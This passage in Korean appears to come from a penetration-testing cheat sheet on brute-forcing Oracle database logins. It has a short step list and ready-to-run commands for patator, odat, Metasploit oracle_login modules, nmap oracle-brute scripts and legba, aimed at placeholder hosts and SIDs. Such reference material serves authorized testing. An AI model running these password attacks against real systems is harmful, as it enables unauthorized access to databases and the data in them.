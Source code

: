 # OracleSQL

## 브루트 포스 공격

브루트 포스 공격은 시스템에 대한 암호를 찾기 위해 가능한 모든 조합을 시도하는 공격입니다. OracleSQL에서 브루트 포스 공격을 수행하는 방법은 다음과 같습니다.

1. 사용자 계정 식별: 먼저, 공격 대상 시스템에서 사용자 계정을 식별해야 합니다. 이를 위해 다양한 방법을 사용할 수 있습니다. 예를 들어, 시스템에 대한 기본 사용자 계정 이름을 알고 있다면 해당 계정으로 로그인을 시도할 수 있습니다.

2. 암호화된 암호 해독: 사용자 계정을 식별한 후, 암호화된 암호를 해독해야 합니다. 이를 위해 다양한 기술과 도구를 사용할 수 있습니다. 예를 들어, 암호화된 암호를 레인보우 테이블을 사용하여 해독할 수 있습니다.

3. 암호 조합 시도: 암호를 해독한 후, 가능한 모든 암호 조합을 시도해야 합니다. 이를 위해 자동화된 스크립트나 도구를 사용할 수 있습니다. 예를 들어, 미리 정의된 암호 목록을 사용하여 암호를 시도할 수 있습니다.

4. 성공 여부 확인: 암호 조합을 시도한 후, 성공 여부를 확인해야 합니다. 성공한 경우, 시스템에 로그인할 수 있는 암호를 찾은 것입니다.

브루트 포스 공격은 시간이 많이 소요되고, 성공할 가능성이 낮을 수 있습니다. 따라서, 효과적인 브루트 포스 공격을 수행하기 위해서는 암호의 복잡성을 고려하고, 자동화된 도구를 사용하여 공격을 수행해야 합니다.
```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#for some reason nmap fails sometimes when executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>

legba oracle --target localhost:1521 --oracle-database SYSTEM --username admin --password data/passwords.txt
```
**oracle_login**을 **patator**와 함께 사용하려면 다음을 **설치**해야 합니다:
```bash
pip3 install cx_Oracle --upgrade
```
[오프라인 OracleSQL 해시 브루트포스](../network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force.md#outer-perimeter-remote-stealth-pass-brute-force) (**버전 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2,** 그리고 **11.2.0.3**):
```bash
nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.11.21.30
```
### POP
